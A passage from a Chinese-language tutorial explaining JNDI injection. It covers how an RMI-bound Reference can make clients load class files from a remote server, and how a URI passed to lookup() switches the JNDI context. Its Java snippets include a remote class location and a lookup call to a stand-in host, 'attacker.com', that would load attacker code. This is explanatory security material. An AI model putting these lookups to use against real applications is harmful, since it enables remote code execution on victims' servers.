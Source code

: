 启动服务端之后,在启动客户端看下：

服务端输出了

![image-20201023111508099](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201023111508099.png)

客户端输出了

![img](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/bf40d702-f0bc-4733-bbad-e7ae5f968237.png-w331s)

### 

### 3.3RMI服务端绑定Reference类或其子类

如果远程获取 `RMI` 服务上的对象为 `Reference` 类或者其子类，则在客户端获取到远程对象存根实例时，可以从其他服务器上加载 `class` 文件来进行实例化。

Reference 中几个比较关键的属性：

1. className - 远程加载时所使用的类名
2. classFactory - 加载的 class 中需要实例化类的名称
3. classFactoryLocation - 提供 classes 数据的地址可以是 file/ftp/http 等协议

例如这里定义一个 `Reference` 实例，并使用继承了 `UnicastRemoteObject` 类的 `ReferenceWrapper` 包裹一下实例对象，使其能够通过 `RMI` 进行远程访问：

```java
Reference refObj = new Reference("refClassName", "insClassName", "http://example.com:12345/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

当有客户端通过 `lookup("refObj")` 获取远程对象时，获得到一个 `Reference` 类的存根，由于获取的是一个 `Reference` 实例，客户端会首先去本地的 `CLASSPATH` 去寻找被标识为 `refClassName` 的类，如果本地未找到，则会去请求 `http://example.com:12345/refClassName.class` 动态加载 `classes` 并调用 `insClassName` 的构造函数。

![image-20201021142813723](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201021142813723.png)

这里说明了在获取 RMI 远程对象时，可以动态地加载外部代码进行对象类型实例化，而 JNDI 同样具有访问 RMI 远程对象的能力，只要其查找参数即 `lookup()` 函数的参数值可控，那么就有可能促使程序去加载部署在攻击者服务器上的恶意代码。

### 3.4JNDI协议动态转换

前面简单的用代码和图例说明了 JNDI 的应用方式和 RMI 中的动态字节代码加载，在初始化配置 JNDI 设置时可以预先指定其上下文环境（RMI、LDAP 或者 CORBA 等）：

```
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY,
        "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL,
        "rmi://localhost:1099");
Context ctx = new InitialContext(env);
```

而在调用 `lookup()` 或者 `search()` 时，可以使用带 URI 动态的转换上下文环境，例如上面已经设置了当前上下文会访问 RMI 服务，那么可以直接使用 LDAP 的 URI 格式去转换上下文环境访问 LDAP 服务上的绑定对象：

```
ctx.lookup("ldap://attacker.com:12345/ou=foo,dc=foobar,dc=com");
```
